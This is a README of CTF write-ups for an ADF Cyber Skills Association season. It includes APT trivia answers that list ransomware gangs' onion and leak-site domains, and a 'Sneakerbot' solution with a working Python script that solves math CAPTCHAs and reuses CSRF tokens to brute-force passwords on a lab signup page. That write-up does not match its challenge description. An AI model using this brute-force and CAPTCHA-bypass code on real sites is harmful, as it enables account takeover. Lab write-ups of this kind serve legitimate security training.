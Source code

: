 # CSA_S2_2024
# CTF Writeups
## Writeups for the ADF Cyber Skills Association Season 2 challenges.

### Title of challenge here
Description - xxxxxxxxxxxxxxxxxxxxxxxxxxx
```
place any code here
```
Solution:
Plugged this straight into ChatGPT:
```
More code here for solution
```
:+1: FLAG{ENTER_FLAG_HERE}
<hr>

### APT Trivia
Description - Are you an APT connoisseur? Flag format:
FLAG{example-flag-here} Port: 1337

```
which country is volt typhoon from? china
which country is midnight blizzard from?  russia
which country is fancy bear from? 
what is the last name of the ransomware operator responsible for the 2023 medibank hack? ermakov
what is the fireeye APT number for Wicked Panda? 41
which ransomware team is responsible for the 2023 TSMC breach? lockbit ransomware gang? national hazard agency
what is the onion domain of the alphv ransomware gang as of 2024? alphvuzxyxv6ylumd2ngp46xzq3pw6zflomrghvxeuks6kklberrbmyd.onion
what is the onion domain of the lockbit gang that contains the string apt34? lockbitapt34kvrip6xojylohhxrwsvpzdffgs5z4pbbsywnzsbdguqd.onion
what is the clearewb domain of the deceased conti ransomware gang with the two-letter TLD? continews.bz
```

:+1: FLAG{you-are-now-an-apt-connoisseur}
<hr>

### Sneakerbot
Description - I recently started building my own LLM... I am not sure what I'm doing yet, but I managed to get some sort of next-token prediction algorithm working with only one word using some data from Wikipedia pages. I've heard all about security concerns on leaking training data, so for testing, I've hidden a flag in the training data to see if you can find it.

Flag Format: FLAG{your_example_flag_goes_here}

After checking out the site, there was no clear indication that a registration was successful as it would just return to the login screen.
It it failed however, an error message would appear "Recaptcha answer is wrong or missing"
This was good because all I had to do was ensure that the recaptcha was accurate.

For this, the following code rendered the flag in wireshark

```
import requests
import json
from bs4 import BeautifulSoup
import re

username = "admin"
passwords = []

# URLs for our requests
website_url = "http://10.107.0.6/signup.php"
signup_url = "http://10.107.0.6/signup.php"

# Load in the passwords for brute forcing
with open("passwords.txt", "r") as wordlist:
    lines = wordlist.readlines()
    for line in lines:
        passwords.append(line.strip())

# Operator mapping
operator_map = {
    "plus": "+",
    "minus": "-",
    "multiplied by": "*",
    "divided by": "/"
}

# Create a session object
session = requests.Session()

# Repeat the process for 100 times
for _ in range(100):
    access_granted = False
    count = 0

    while not access_granted and count < len(passwords):
        password = passwords[count]

        # Connect to the signup page
        print("[*] Connecting to signup page...")
        response = session.get(website_url)
        print("[+] Connected to signup page successfully.")

        # Parse the HTML and find the CAPTCHA question and CSRF token
        print("[*] Parsing HTML...")
        soup = BeautifulSoup(response.content, 'html.parser')
        print(soup)
        recaptcha_question_element = soup.find("p", text=re.compile(r"Recaptcha question:", re.IGNORECASE))
        csrf_token_input = soup.find("input", {"name": "csrftoken"})
        if recaptcha_question_element and csrf_token_input:
            question_text = recaptcha_question_element.text.split(":", 1)[1].strip()
            csrf_token = csrf_token_input.get("value")
            print("[+] CAPTCHA question found:", question_text)
            print("[+] CSRF token found:", csrf_token)
        else:
            print("[-] CAPTCHA question or CSRF token not found.")
            continue

        # Extract the math question
        math_question = re.search(r"What is (.+)\?", question_text).group(1)
        print("[+] Math question found:", math_question)

        # Extract the operator from the math question
        operator = None
        for op_text, op_symbol in operator_map.items():
            if op_text in math_question:
                operator = op_symbol
                break

        if operator is None:
            print("[-] Operator not found in the math question.")
            continue

        # Extract operands
        operands = re.findall(r"\d+", math_question)
        print("[+] Extracted operands:", operands)
        print("[+] Operator found:", operator)

        # Calculate the result of the math question
        operand1 = int(operands[0])
        operand2 = int(operands[1])
        if operator == '+':
            captcha_answer = operand1 + operand2
        elif operator == '-':
            captcha_answer = operand1 - operand2
        elif operator == '*':
            captcha_answer = operand1 * operand2
        elif operator == '/':
            captcha_answer = operand1 / operand2
        print("[+] Calculated captcha answer:", captcha_answer)

        # Build the POST data for our brute force attempt
        signup_data = {
            'username': username,
            'password': password,
            'recaptcha': captcha_answer,
            'csrftoken': csrf_token,
            'Confirm': "Submit"
        }
        print("[*] Attempting signup with credentials:", signup_data)

        # Submit our brute force attack
        response = session.post(signup_url, data=signup_data)

        # Check the HTTP response code
        if response.status_code == 200:
            print("[+] Registration successful for Username:", username)
            access_granted = True
        else:
            print("[-] Registration failed. HTTP status code:", response.status_code)
            count += 1
```
:+1: FLAG{unl34sh-the-b0ts}
<hr>

LARGE FLAG MODEL CODE
```
#!/usr/bin/env python3

import sys
import random
import pickle
import time

def predict(word_sequence, model, sequence_length=8):
    '''
    sequence length defines the maximum limit of words to spit out
    '''
    try:
        if len(word_sequence) >= sequence_length:
            return word_sequence

        start_word = word_sequence[-1]
        
        # Check if start_word exists in the model
        if start_word not in model:
            return None

        candidates = model[start_word]
        # print(candidates)
        candidates_sorted = sorted(candidates, key=lambda x: x[1], reverse=True)

        most_probable = candidates_sorted[random.randrange(0, min(3, len(candidates_sorted)))] # pick between top 3 candidates
        word_sequence.extend(most_probable[0])

        return predict(word_sequence, model, sequence_length)
    except RecursionError:
        print("Recursion limit exceeded. Skipping word.")
        return word_sequence

def main():
    try:
        model_file = open('model.pkl', 'rb')
        model = pickle.load(model_file)
        model_file.close()
    except FileNotFoundError:
        print("Error: Model file not found.")
        return

    try:
        words_file = open('words.txt', 'r')
        words = words_file.read().split()
        words_file.close()
    except FileNotFoundError:
        print("Error: Words file not found.")
        return

    # Set maximum recursion depth
    sys.setrecursionlimit(3000)  # Adjust this limit as needed

    for word in words:
        print("Prompt:", word)
        prediction = predict([word], model)
        if prediction is not None:
            print(' '.join(prediction))
            print()
        time.sleep(0.1)  # Sleep for one second between each word

if __name__ == "__main__":
    main()

```
